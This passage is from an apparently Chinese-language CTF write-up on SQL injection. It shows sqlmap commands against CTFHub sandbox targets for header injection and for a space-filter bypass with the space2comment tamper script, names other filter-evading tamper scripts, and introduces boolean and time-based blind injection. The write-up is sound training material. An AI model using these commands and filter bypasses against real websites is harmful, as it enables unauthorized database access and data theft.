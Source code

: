 ```shell
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] n
```

#### UA/Refer 注入

```shell
(venv) ➜  sqlmap git:(master) python sqlmap.py -u "http://challenge-2fb3dbe4a07f0636.sandbox.ctfhub.com:10800" --level 3 --dbs
```

#### 过滤空格

```shell
(venv) ➜  sqlmap git:(master) python sqlmap.py -u "http://challenge-96c2d3e8613433d1.sandbox.ctfhub.com:10800/?id=1" --dbs

[09:35:42] [WARNING] GET parameter 'id' does not seem to be injectable
[09:35:42] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

当前测试的所有参数似乎都不容易受到 SQL 注入的影响。如果你希望进行更多的测试，可以尝试增加 --level 和 --risk 选项的值。如果你怀疑存在某种保护机制（例如 Web 应用防火墙），你可以尝试使用 --tamper 选项来进行混淆，也可以考虑使用 --random-agent 来模拟随机的 User-Agent。

脚本名： space2comment.py 
作用：Replaces space character  ' '  with comments   /**/
也就是用注释/**/替换空格字符' '

 sqlmap 中的 tamper 脚本有很多，例如： equaltolike.py （作用是用like代替等号）、 apostrophemask.py （作用是用utf8代替引号）、 greatest.py （作用是绕过过滤'>' ,用GREATEST替换大于号）等。
 
(venv) ➜  sqlmap git:(master) python sqlmap.py -u "http://challenge-96c2d3e8613433d1.sandbox.ctfhub.com:10800/?id=1" --dbs --tamper=space2comment --time-sec=2
```

### 盲注

盲注是 SQL 注入的一种，SQL 语句执行后，选择的数据不能回显到前端页面，因此攻击者无法获得任何错误回显消息，此时需要利用一些方法进行判断或者尝试，逐渐推断出数据库中的敏感信息，这个过程称之为盲注。

在盲注中，攻击者根据其返回页面的不同来判断信息。

#### 基于布尔的盲注

页面返回的结果只有两种：正确和错误。

通过构造 SQL 判断语句，查看页面的返回结果来判断哪些 SQL 判断条件成立。

#### 基于时间的盲注
